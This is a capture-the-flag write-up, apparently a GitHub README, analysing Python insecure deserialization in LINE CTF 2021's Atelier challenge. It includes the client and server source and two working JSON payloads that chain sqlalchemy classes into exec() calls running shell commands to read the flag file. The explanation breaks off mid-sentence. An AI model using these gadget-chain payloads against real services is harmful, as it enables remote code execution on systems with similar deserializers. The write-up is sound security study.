






# python-gadgets

Diving into the Atelier challenge of LINECTF2021 using Python gadgets (similar to ROP gadgets)

## Setup

```bash
python3 -m venv venv
. venv/bin/activate
pip3 install -r requirements.txt

python3 server.py
python3 exploit1.py 0.0.0.0 8081
python3 exploit2.py 0.0.0.0 8081
```

## ROP chain exploit in binaries

In C binaries a way to create exploits in binary is abusing Return Oriented Programming (ROP). When in a C binary a function is called, a new area on top of the stack is allocated dedicated for this function. This area contains all the instructions of this function with at the end an address which points to place from where the function is called. This means when the function is finished, the address at the end allows the program to return to place it was before which could be another function. This can be abused by overwritting this return address with an address to another place in memory, allowing the program to execute in a different way than expected. Often the overridden address points to a libc function, which is the basic library used in binaries containing a lot of common functions used, for example methods for: string manipulation, file I/O, mathematics and [many more](https://www.gnu.org/software/libc/manual/html_mono/libc.html). In exploits often the way to go is using the [execve](https://man7.org/linux/man-pages/man2/execve.2.html) method with `/bin/sh` as an argument, allowing the user to escape the program and to execute shell commands on the machine.

There are a few challenges for this type of exploit, where an important one is the parameters of a function, for example `execve`. When a function is called, the parameters are put in the right registry. There is always a specific order for this depending on the CPU architecture. So when for example `strlen` is called to calculate the length of a string, a pointer to the string is expected in the first registry. So for a function to be called it's important that the right amount of arguments is there and they have the right type (long, char pointer, etc).

When trying to write an exploit this is often a problem, since the registries at the moment of returning to our wanted method for the exploit is different for every program. A way to solve this is using ROP gadgets to create a chain of returns. Libc has a lot of functions available, which can be used to move the values in registries around in such a way that the registries are in the right order for our wanted method. Such functions are called ROP gadgets and can be found with tools like [this one](https://github.com/JonathanSalwan/ROPgadget).

Although Python also follows the principle of return oriented programming, it's not easy to create a similar exploit. When programming in Python we don't write directly to memory addresses in comparison to C, so overwriting the return pointer is not possible. But there are other ways to create exploits in Python, which suprising to me had an interesting familiarity with a ROP chain exploit.

# The challenge: Atelier

The challenge gives us just a Python script which we can run against an external server. When we run it it looks as follows:



As can be seen the program is relatively simple: we can choose two materials and a result is shown. I tried different inputs, like non existing numbers or special characters, but the server seemed to handle this correctly. So let's dive into the code of the client we received.

```python
#!/usr/bin/env python3

import sys
import json
import asyncio
import importlib

# from sqlalchemy import *


class AtelierException:
    def __init__(self, e):
        self.message = repr(e)


class MaterialRequest:
    pass


class MaterialRequestReply:
    pass


class RecipeCreateRequest:
    def __init__(self, materials):
        self.materials = materials


class RecipeCreateReply:
    pass


def object_to_dict(c):
    res = {}
    res["__class__"] = str(c.__class__.__name__)
    res["__module__"] = str(c.__module__)
    res.update(c.__dict__)
    return res


def dict_to_object(d):
    if "__class__" in d:
        class_name = d.pop("__class__")
        module_name = d.pop("__module__")
        module = importlib.import_module(module_name)
        class_ = getattr(module, class_name)

        inst = class_.__new__(class_)
        inst.__dict__.update(d)
    else:
        inst = d

    return inst


async def rpc_client(message):
    message = json.dumps(message, default=object_to_dict)

    reader, writer = await asyncio.open_connection(sys.argv[1], int(sys.argv[2]))
    writer.write(message.encode())
    data = await reader.read(2000)
    writer.close()

    res = json.loads(data, object_hook=dict_to_object)
    if isinstance(res, AtelierException):
        print("Exception: " + res.message)
        exit(1)

    return res


print(
    """
         ,✿   ✿      ✿
        / |  -|- ,-✿ |  ✿ ,-✿ ,-✿
✿'`✿'  /--|   |  |-' |  | |-' |   ✿'`✿'
     ,'   `-' `' `-' `' ' `-' '

     Author: twitter.com/vsnrain

Hi and welcome to my Atelier!
I am making a handy database to store my alchemy recipes.
I have not finished adding all of the recipes yet, but you can try crafting some of them if you want.
"""
)
loop = asyncio.get_event_loop()

req = MaterialRequest()
res = loop.run_until_complete(rpc_client(req))

print("\nMaterial 1:")
for i, m in enumerate(res.material1):
    print(f"{i}: {m}")
input1 = int(input("Choose material 1: "))
material1 = res.material1[input1]

print("\nMaterial 2:")
for i, m in enumerate(res.material2):
    print(f"{i}: {m}")
input2 = int(input("Choose material 2: "))
material2 = res.material2[input2]

req = RecipeCreateRequest(f"{material1},{material2}")
res = loop.run_until_complete(rpc_client(req))

print("\nResult :\n" + res.result)

loop.close()
```

The code is also not that difficult to read. The client creates an object of a class defined in the script (either `MaterialRequest` or `RecipeCreateRequest`), serializes this to a JSON string using the `object_to_dict` method and sends it to the server using a stream. The client than waits for a response of the server, which is deserializes from a JSON string using the `dict_to_object` method to a object of a class also defined in the script (either `MaterialRequestReply` or `RecipeCreateReply`). The serializing of the object results in the following message we send to the server:

```json
{
  "__class__": "RecipeCreateRequest",
  "__module__": "__main__",
  "materials": "sparkling powder,blue dye"
}
```

Although the client enforces us in the structure of the message we sent, we can modify the client to send whatever message we want. I also found out that the server doesn't keep a state, it just processes the request based on the structure. I confirmed this by setting a new connection and send the above message without a `MaterialRequest` first.

Two things in this client were interesting to me. The first was the import of sqlalchemy which was commented out. It could be a hint that sqlalchemy is used, possibly by the server. The second thing that catched my eye was the way the serializing and deserializing was done. Instead of processing just a dict with data, this client processes objects of an user defined class. From other challenges I remember that in JavaScript [prototype poluttion](https://portswigger.net/daily-swig/prototype-pollution-the-dangerous-and-underrated-vulnerability-impacting-javascript-applications) exists. Here extra, unexpected properties are added to the serialized to the sent message. When the server deserializes this message, the properties can override methods of the deserialized object, resulting in unexpected and unwanted behavior. For example the following code 'polutes' the `toString` property:

```javascript
let customer = { name: "person", address: "here" };
console.log(customer.toString());
//output: "[object Object]"

customer.__proto__.toString = () => {
  alert("polluted");
};
console.log(customer.toString());
// alert box pops up: "polluted"
```

Since the Python client deserializes the message into an object of a class, we could also override builtin methods of the object. I tried this during the CTF, but I didn't find a way to accomplish this during the CTF. So I waited for the CTF to end and read the write-ups, which proved I was on the right path, but the way the exploit works really blew my mind.

## The exploits

After the CTF ended I saw two write-ups, which showed their exploit, but I still didn't fully understand how they worked. The [first write-up](https://colab.research.google.com/drive/1Eg7dwu6bProy4Pwwgqg0UG0bj3NjGLOD) used the following payload:

```json
{
  "__class__": "RecipeCreateRequest",
  "__module__": "__main__",
  "materials": {
    "__class__": "RecipeCreateRequest",
    "__module__": "__main__",
    "split": {
      "__class__": "_FunctionGenerator",
      "__module__": "sqlalchemy.sql.functions",
      "opts": {
        "__class__": "RecipeCreateRequest",
        "__module__": "__main__",
        "copy": {
          "__class__": "_class_resolver",
          "__module__": "sqlalchemy.ext.declarative.clsregistry",
          "arg": "exec('import subprocess; raise Exception(subprocess.check_output(\"cat flag\", shell=True))')",
          "_dict": {}
        }
      }
    }
  }
}
```

The message defines a nested structure of classes, where the most nested class contains the method to read the flag file and return it via the message of an exception. When sending this message, this is the result:

```sh
$ python3 exploit1.py 0.0.0.0 8081
Exception: Exception(b'THIS_IS_FLAG',)
```

The [second write-up](https://qiita.com/__dAi00/items/52548d42c1242e14ab3a) I found sends the following message:

```json
{
  "__class__": "RecipeCreateRequest",
  "__module__": "__main__",
  "materials": {
    "__class__": "RecipeCreateRequest",
    "__module__": "__main__",
    "split": {
      "__class__": "BooleanPredicate",
      "__module__": "sqlalchemy.testing.exclusions",
      "value": {
        "__class__": "ConventionDict",
        "__module__": "sqlalchemy.sql.naming",
        "convention": [],
        "_key_0": {
          "__class__": "_class_resolver",
          "__module__": "sqlalchemy.ext.declarative.clsregistry",
          "arg": "exec(\"raise Exception(open('flag').read())\")",
          "_dict": {}
        }
      }
    }
  }
}
```

The structure of nested classes looks similar, but the classes used are different. The most nested class is still the same though, where the method to read the flag is slightly different, but with the same result.

Although I now had working exploits, without the server code it was still guessing for me how it worked. So I asked the author of the challenge for the source code and this is what he gave me:

```python
#!/usr/bin/env python3

import json
import asyncio
import multiprocessing
import importlib
import socket

from sqlalchemy import create_engine
from sqlalchemy import Table, Column, Integer, String, MetaData
from sqlalchemy import and_
from sqlalchemy.sql import select

FIREWORKS = """
                          ,
                       \  :  /
                    `. __/ \__ .'
                    _ _\     /_ _
                       /_   _\\
                     .'  \ /  `.
                       /  :  \\
                          '
          ,                               ,
       \  :  /                         \  :  /
    `. __/ \__ .'                   `. __/ \__ .'
    _ _\     /_ _                   _ _\     /_ _
       /_   _\                         /_   _\\
     .'  \ /  `.                     .'  \ /  `.
       /  :  \                         /  :  \\
          '                               '
"""

EXPLOSION = """
                                 :
                       !H.     :H       .:          :
                       .H.     ! .                 :
                .        oH.  oo ooo.. :
                 !!..    ooooooooooooHH.     !.:
  :                 H:ooooooooooooooooo  :.H                   .
         ..     .   .oooooooooooooooooo.:oH:.
            :.! . .oooooooooooooooooooooo!::!   .  .: :
               .: oooooooooooooooooooIooo! :!!:::
                 oooooooooooooooMooooooooHH!H:
                .ooooooooooooooooooooOII!! !o o
   :  :  :  H   IooooooooooooooWoooooMoHoIoH!.:H! .::          .   .
                 ooooooooooooooooooOooOH!!oH: ...
                  .oooooooHoooOoooOooIoooHHIH:.
                .H .::oo!ooIIOOOooIoIIoH!.::::I.: .
            .   .    :o:Ooo:HOoHIIHHoHHoIH::  . . .!.
     .            . .!H!: oHI!o!oooooo!!oHH..         :!   .
                   : !.  .:.H.:!:!!.!H: ...H               .
                 ! .    .!:   :: ::  !H     .:..
                                H.       .
                               :
"""

engine = create_engine("sqlite:///:memory:", echo=False)
metadata = MetaData()

recipes = Table(
    "recipes",
    metadata,
    Column("id", Integer, primary_key=True),
    Column("material1", String),
    Column("material2", String),
    Column("result", String),
)
metadata.create_all(engine)

conn = engine.connect()
conn.execute(
    recipes.insert(),
    [
        {
            "id": 0,
            "material1": "sparkling powder",
            "material2": "red dye",
            "result": "Red fireworks are surely look nice, but please launch it outside.\033[0;31m"
            + FIREWORKS
            + "\033[0m",
        },
        {
            "id": 1,
            "material1": "sparkling powder",
            "material2": "green dye",
            "result": "Green fireworks are surely look nice, but please launch it outside.\033[0;32m"
            + FIREWORKS
            + "\033[0m",
        },
        {
            "id": 2,
            "material1": "sparkling powder",
            "material2": "blue dye",
            "result": "Blue fireworks are surely look nice, but please launch it outside.\033[0;34m"
            + FIREWORKS
            + "\033[0m",
        },
        {
            "id": 3,
            "material1": "explosive powder",
            "material2": "red dye",
            "result": "As soon as you crafted item, you saw a bright red explosion, powerfull enough to kick you out of the store.\033[0;31m"
            + EXPLOSION
            + "\033[0m",
        },
        {
            "id": 4,
            "material1": "explosive powder",
            "material2": "green dye",
            "result": "As soon as you crafted item, you saw a bright green explosion, powerfull enough to kick you out of the store.\033[0;32m"
            + EXPLOSION
            + "\033[0m",
        },
        {
            "id": 5,
            "material1": "explosive powder",
            "material2": "blue dye",
            "result": "As soon as you crafted item, you saw a bright blue explosion, powerfull enough to kick you out of the store.\033[0;34m"
            + EXPLOSION
            + "\033[0m",
        },
    ],
)


class AtelierException:
    def __init__(self, e):
        self.message = repr(e)


class MaterialRequest:
    pass


class MaterialRequestReply:
    def __init__(self):
        self.material1 = list(
            set([i[0] for i in conn.execute(select([recipes.c.material1]))])
        )
        self.material2 = list(
            set([i[0] for i in conn.execute(select([recipes.c.material2]))])
        )


class RecipeCreateRequest:
    def __init__(self, materials):
        self.materials = materials


class RecipeCreateReply:
    def __init__(self, m1, m2):
        query = select([recipes.c.result]).where(
            and_(recipes.c.material1 == m1, recipes.c.material2 == m2)
        )
        result = conn.execute(query).fetchone()[0]
        self.result = result


def dict_to_object(d):
    if "__class__" in d:
        class_name = d.pop("__class__")
        module_name = d.pop("__module__")
        if (module_name not in ["__main__"]) and (
            not module_name.startswith("sqlalchemy")
        ):
            # no unintended solutions plz
            raise ModuleNotFoundError(f"No module named {module_name}")

        module = importlib.import_module(module_name)
        class_ = getattr(module, class_name)

        obj = class_.__new__(class_)
        obj.__dict__.update(d)
    else:
        obj = d

    return obj


def object_to_dict(o):
    res = {}
    res["__class__"] = str(o.__class__.__name__)
    res["__module__"] = (
        "__main__" if str(o.__module__) == "__mp_main__" else str(o.__module__)
    )
    res.update(o.__dict__)
    return res


async def handle_client(client, loop):

    try:
        dat = await loop.sock_recv(client, 2000)
        obj = json.loads(dat, object_hook=dict_to_object)

        if isinstance(obj, MaterialRequest):
            response = MaterialRequestReply()
        elif isinstance(obj, RecipeCreateRequest):
            materials = obj.materials.split(",")
            response = RecipeCreateReply(materials[0], materials[1])
        else:
            response = AtelierException("unknown message")

    except Exception as e:
        response = AtelierException(e)
        print(e)

    response = json.dumps(response, default=object_to_dict).encode("ascii")
    await loop.sock_sendall(client, response)
    client.shutdown(socket.SHUT_RDWR)


def run_server(client):
    loop = asyncio.get_event_loop()
    loop.run_until_complete(handle_client(client, loop))


if __name__ == "__main__":
    server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    server.bind(("0.0.0.0", 8081))
    server.listen(1)

    while True:
        client, address = server.accept()

        process = multiprocessing.Process(target=run_server, args=(client,))
        process.daemon = True
        process.start()
```

The way the server works is very similar to the client, it also serializes objects to a JSONs string and deserializes JSON strings to objects. Also the suspected usage of sqlalchemy is confirmed. Both exploits seem to override the `split` method on the line `materials = obj.materials.split(",")`, where a `RecipeCreateRequest` is processed. They override this split method with another class, triggering the `_class_resolver` with the method to read the flag. It still wasn't clear to me how this chain of nested classes exactly works, but at least I have a working example now.

## Exploits explained

Let's dive into the first exploit using the classes `_FunctionGenerator` and `_class_resolver` to see exactly what is happening. Since we have the code of the server, we can debug it and see how it handles the message of the exploit. We can see that the deserialized message results in the following Python object:



The `dict_to_object` method actually deserialized the message into the (nested) classes provided via the `__class__` and `__module__` fields. Let's continue debugging.



The exploits seem to override the split method and hovering over the value of it, it confirms this suspicion. In comparison, normally split would point to the built-in function of string:



By disabling the `justMyCode` setting of VS Code we can follow this call:



Okay this is interesting! So we end up in the `FunctionGenerator` class in the `sqlalchemy.sql.functions` module, as expected, but in this class we go into the `__call__` method. The [Python documentation](https://docs.python.org/3/reference/datamodel.html#object.__call__) says the following: `Called when the instance is “called” as a function`. Which means the following happens:

```python
class MyClass:
    def __call__(self):
        print("You have called MyClass!")

c = MyClass()
c()
# prints: You have called MyClass!
```

Okay so we can reference classes which have implemented the `__call__`. Let's see what happens next in the program:



So as expected, the `copy` method now points to the
